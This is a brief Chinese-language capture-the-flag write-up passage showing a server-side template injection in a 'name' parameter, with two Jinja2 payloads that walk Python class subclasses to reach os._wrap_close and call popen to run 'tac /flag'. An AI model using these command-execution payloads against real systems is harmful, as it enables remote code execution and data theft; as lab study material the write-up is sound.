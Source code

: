 [![在这里插入图片描述](assets/1698900310-c1094834e1df59ba7485f9e2361498be.png)](https://storage.tttang.com/media/attachment/2022/08/14/4f9c861e-cb68-47e7-8225-aba96a332960.png)  
存在 SSTI 模板注入

```plain
name={{request.__class__.__mro__[-1].__subclasses__()[132]}}
```

[![在这里插入图片描述](assets/1698900310-40c57d2b963296f62cb22796ae2a7896.png)](https://storage.tttang.com/media/attachment/2022/08/14/db173acc-832e-40f2-8969-649125e42284.png)  
找到`<class 'os._wrap_close'>`，os.\_wrap\_close 类里有 popen。这里直接利用 popen 来执行命令

```plain
{{request.__class__.__mro__[-1].__subclasses__()[132].__init__.__globals__['popen']('tac /flag').read()}}
```

[![在这里插入图片描述](assets/1698900310-ecb0219bfe55333252eb35a8ad472042.png)](https://storage.tttang.com/media/attachment/2022/08/14/ba951465-b8ba-4c7d-bf11-7a1a3ad6acc4.png)
